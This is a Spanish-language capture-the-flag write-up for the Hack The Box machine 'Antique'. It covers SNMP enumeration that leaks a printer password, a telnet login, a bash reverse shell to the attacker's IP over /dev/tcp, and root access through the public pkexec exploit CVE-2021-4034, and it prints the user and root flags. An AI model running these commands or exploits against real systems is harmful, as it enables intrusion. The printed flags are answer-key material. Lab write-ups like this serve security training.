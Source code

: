 ```yaml
---
layout: single
title: Antique - Hack The Box
excerpt: "Antique is an easy Linux achine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server."
date: 2024-04-02
classes: wide
header:
  teaser: /assets/images/htb-antique/antique.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - UDP
  - SNMP
---
```


![](/assets/images/htb-antique/antique.png)

Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root >

## Portscan

```
 Nmap 7.94SVN scan initiated Tue Apr  2 17:03:02 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allports 10.10.11.107
 Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.107 ()   Status: Up
Host: 10.10.11.107 ()   Ports: 23/open/tcp//telnet///   Ignored State: closed (65534)
 Nmap done at Tue Apr  2 17:03:14 2024 -- 1 IP address (1 host up) scanned in 12.38 seconds
```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p23 -Pn 10.10.11.107 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 17:07 CEST
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServer>
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data.

```
Vamos a analizar tambien los puertos UDP:
```
sudo nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107                              1 ⨯
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 17:21 CEST
Initiating Ping Scan at 17:21
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 17:21, 0.06s elapsed (1 total hosts)
Initiating UDP Scan at 17:21
Scanning 10.10.11.107 [100 ports]
Warning: 10.10.11.107 giving up on port because retransmission cap hit (2).
Discovered open port 161/udp on 10.10.11.107
Completed UDP Scan at 17:21, 9.96s elapsed (100 total ports)
Nmap scan report for 10.10.11.107
Host is up (0.11s latency).
Not shown: 86 open|filtered udp ports (no-response), 13 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds
           Raw packets sent: 369 (22.540KB) | Rcvd: 17 (1.327KB)
```
## Intrusión SNMP


Vemos que el puerto abierto tiene un servicio snmp, asi que vamos a investigarlo:
```
snmpwalk -c public -v2c 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```
Vemos que esta en hexadecimal y vamos a pasarlo de un modo que sea legible:
```
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i   IY�aA�"1&1A5
```
## Entramos con telnet en el puerto 443

Lo ponemos:
```
telnet 10.10.11.107 23
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect


Password: P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i
```
Vemos que se puede ejecutar comandos con exec asi que vamos a pasarnos una bash:
```
exec bash -c "bash -i >& /dev/tcp/10.10.16.14/443 0>& 1"
```

Ya podemos sacar la flag de usuario:
```
lp@antique:~$ cat user.txt
cat user.txt
15223601059755aab2544f81cdc59707
```
## Escalada de privilegios

Vamos a ver si encontramos la debilidad pkexec, que se puede explotar
```
lp@antique:~$ which pkexec
/usr/bin/pkexec
```

Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos en .tar.gz (Ya que zip no esta en la maquina víctima).Desde el equipo de la víctima, obtenemos el comprimido de nuestro equipo(wget http:>
```
lp@antique:/tmp/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# bash
root@antique:/tmp/CVE-2021-4034# cd/root
bash: cd/root: No such file or directory
root@antique:/tmp/CVE-2021-4034# cd /root
root@antique:/root# ls
config.py  root.txt  snap  snmp-server.py
root@antique:/root# cat root.txt
4202c54a001f14e922c8d8ae918b8ac0
```
